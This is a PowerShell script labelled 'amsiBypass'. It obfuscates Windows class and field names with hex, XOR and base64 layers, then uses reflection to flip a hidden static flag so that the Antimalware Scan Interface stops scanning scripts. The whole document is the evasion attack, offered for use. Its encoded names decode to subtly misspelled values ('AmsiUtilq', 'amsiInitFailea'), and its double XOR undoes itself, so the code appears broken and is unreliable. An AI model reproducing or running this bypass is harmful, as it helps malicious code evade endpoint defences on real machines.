 # amsiBypass

function XOR-HexStrings {
    param (
        [string]$hexString,
        [string]$key
    )

    $result = @()
    $hexValues = $hexString -split ' '
    $keyValues = $key.ToCharArray()

    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        # Convert hex to byte (character), XOR with key character, and convert back to hex
        $xorResult = [convert]::ToByte($hexValues[$i], 16) -bxor [char]$keyValues[$i % $keyValues.Length]
        $result += '{0:X2}' -f $xorResult  # format as hex
    }

    return $result -join ' '  # Return as string of space-separated hex values
}

$xorKey = "1246hhjjjkkgdddd"

function HexToString ($hexArray) {
    return ($hexArray -split ' ' | ForEach-Object { [char][convert]::ToInt16($_, 16) }) -join ''
}

$originalAdditionalNameHex = "41 6D 73 69 55 74 69 6C 71"
$originalFieldNameHex = "61 6D 73 69 49 6E 69 74 46 61 69 6C 65 61"

$additionalNameHex = XOR-HexStrings -hexString $originalAdditionalNameHex -key $xorKey
$fieldNameHex = XOR-HexStrings -hexString $originalFieldNameHex -key $xorKey
$decryptedAdditionalNameHex = XOR-HexStrings -hexString $additionalNameHex -key $xorKey
$decryptedFieldNameHex = XOR-HexStrings -hexString $fieldNameHex -key $xorKey

$baseName = 'System.Management.Automation.'
$className = $baseName + (HexToString $decryptedAdditionalNameHex)

$fieldName = HexToString $decryptedFieldNameHex

$base64DecodedName = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String([Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($className))))
$base64DecodedField = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String([Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($fieldName))))

try {
    # Use reflection to modify the field value
    [Ref].Assembly.GetType($base64DecodedName).GetField($base64DecodedField,'NonPublic,Static').SetValue($null,$true)
    Write-Host "The field was successfully modified."
} catch {
    Write-Host "An error occurred: $_"
}



